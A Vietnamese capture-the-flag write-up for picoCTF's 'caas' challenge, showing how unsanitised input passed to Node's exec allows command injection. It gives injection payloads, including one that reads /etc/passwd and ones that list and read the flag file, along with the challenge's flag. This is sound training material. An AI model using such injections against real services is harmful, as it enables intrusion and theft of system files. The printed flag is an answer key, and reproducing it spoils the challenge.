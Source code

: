 # Write-up : caas
---
### Description :
> Now presenting cowsay as a service
> file index.js
### Hint :
> none
---
### Solution :
Tải file về và mở ra thì đọc qua chúng ta có thể thấy có import các lệnh của linux vào ``` const { exec } = require('child_process'); ```
Khi vào trang web thì có được 1 đường link để chuyển đến `` con bò nói ``, khi vào đường dẫn ta có thể bắt con bò nói bằng cách thêm văn bản vào sau dấu `` / `` của `` https://caas.mars.picoctf.net/cowsay/{message} ``
Quay lại với việc đọc code thì chúng ta lại tìm ra điểm để khai thác sau khi có phần import các câu lệnh linux phía trên : ```  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) ```
Dễ dàng thấy ``` ${req.params.message} ``` không kiểm tra dữ liệu đầu vào
- Vậy chúng ta có thể sử dụng các câu lệnh linux
??? Vậy chúng ta dùng các câu lệnh như nào ???
- Như chúng ta đã biết thì muốn thực hiện lệnh thì phải phân cách giữa dữ liệu vào và câu lệnh mình muốn thực hiện, trong linux việc ngăn cách giữa 2 câu lệnh đó là xuống dòng hoạc dùng dấu `` ; ``
> giải thích : coi câu lệnh ${req.params.message} như 1 câu lệnh linux echo 1 và phần ${req.params.message} chính là số 1 trong câu lệnh echo đó, muốn thực hiện thêm 1 câu lệnh thì ta phải giúp linux phân biệt rõ 2 câu lệnh bằng dấu `` ; ``
> ví dụ : echo 1 và ta được nhập văn bản để in ra màn hình, nhưng 1 hacker thì không nhập như bình thường mà sẽ nhập là `` 1;cat /etc/passwd `` để thực hiện thêm 1 lệnh

Như vậy ta có thể áp dụng vào bài này, chúng ta sẽ nhập 1 văn bản bình thường là `` ; `` sau đó là câu lệnh ta muốn thực hiện
Trong bài này ta sẽ tìm file flag.txt và đọc nó thôi, vì thế chúng ta sẽ dùng lệnh `` ls `` . Chúng ta có payload là `` hello;ls `` 
Thu được kết quả là : 
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
Á à ta đã thấy 1 file khá lạ và cũng rất quen đó là file : `` falg.txt `` 
Dùng lệnh cat để đọc : `` hello;cat falg.txt `` 
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
### Flag : `` picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o} ``
